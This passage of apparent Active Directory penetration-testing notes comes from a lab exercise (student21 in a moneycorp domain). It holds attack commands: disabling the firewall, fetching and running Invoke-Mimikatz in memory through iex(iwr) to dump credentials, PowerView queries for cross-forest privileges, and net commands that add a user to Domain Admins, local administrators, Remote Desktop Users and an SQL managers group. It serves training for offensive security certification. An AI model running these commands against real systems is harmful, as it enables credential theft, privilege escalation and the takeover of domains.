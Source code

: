     # applocker 
    Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

    # Disable FireWall !!!

    # Mimikatz
    # Modify to make it work without dot sourcing
    wget or curl or iex(iwr)
    .\Invoke-Mimikatz.ps1


    ```

### Get users with privileges in other domains inside the forest

    ```powershell
    Get-DomainForeingUser 

    # Get groups with privileges in other domains inside the forest

    Get-DomainForeignGroupMember 
    ```


### Extras

    ```powershell
    # Once you are DA add user to DA group
    Invoke-Command -ScriptBlock {net group "DOMAIN ADMINS" student21 /domain /add} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

    # Query
    net localgroup administrators

    C:> net localgroup Administrators student21 /add  ## add to localgroup admins

    C:> net localgroup "Remote Desktop Users" student21 /add ## add to RDP group

    # Add to DA 
    net group "DOMAIN ADMINS" student21 /domain /add

    # Checking First Degree Object Controls
    # if the user is part of a group example sql admins and has generic all access we can do the following
    net group "SQLMANAGERS" examAd /domain /add
